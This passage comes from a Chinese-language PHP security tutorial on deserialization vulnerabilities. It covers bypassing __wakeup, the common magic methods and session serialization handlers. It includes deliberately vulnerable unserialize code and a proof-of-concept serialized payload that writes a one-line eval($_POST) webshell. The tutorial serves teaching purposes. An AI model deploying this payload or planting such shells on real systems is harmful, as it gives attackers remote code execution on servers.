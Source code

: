 ```
`}`
$hpdoger = $_POST['hpdoger'];
$clan = unserialize($hpdoger);
?&gt;
```

每次反序列化是都会调用__wakeup从而把$a值清空。但是，如果我们绕过wakeup不就能写Shell了？既然反序列化的内容是可控的，就利用上述的方法绕过wakeup。

poc:

```
O:1:"A":2:`{`s:1:"a";s:27:"&lt;?php eval($_POST["hp"]);?&gt;";`}`
```

### <a class="reference-link" name="%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%B8%B8%E8%A7%81%E7%9A%84%E9%AD%94%E6%B3%95%E5%87%BD%E6%95%B0"></a>序列化漏洞常见的魔法函数

**construct():当一个类被创建时自动调用<br>**destruct():当一个类被销毁时自动调用<br>**invoke():当把一个类当作函数使用时自动调用<br>**tostring():当把一个类当作字符串使用时自动调用<br>**wakeup():当调用unserialize()函数时自动调用<br>**sleep():当调用serialize()函数时自动调用<br>
__call():当要调用的方法不存在或权限不足时自动调用



## Session反序列化漏洞

### <a class="reference-link" name="Session%E5%BA%8F%E5%88%97%E5%8C%96%E6%9C%BA%E5%88%B6"></a>Session序列化机制

提到这个漏洞，就得先知道什么叫Session序列化机制。

当session_start()被调用或者php.ini中session.auto_start为1时，PHP内部调用会话管理器，访问用户session被序列化以后，存储到指定目录（默认为/tmp）。

PHP处理器的三种序列化方式：<br>
| 处理器 | 对应的存储格式 |<br>
| ————————— |:——————————-|<br>
| php_binary | 键名的长度对应的ASCII字符＋键名＋经过serialize() 函数反序列处理的值 |<br>
| php | 键名＋竖线＋经过serialize()函数反序列处理的值 |<br>
|php_serialize |serialize()函数反序列处理数组方式|

配置文件php.ini中含有这几个与session存储配置相关的配置项：

```
session.save_path=""   --设置session的存储路径,默认在/tmp
session.auto_start   --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
session.serialize_handler   --定义用来序列化/反序列化的处理器名字。默认使用php
```

一个简单的demo(session.php)认识一下存储过程：

```
&lt;?php
ini_set('session.serialize_handler','php_serialize');
session_start();

$_SESSION['hpdoger'] = $_GET['hpdoger'];

?&gt;
```
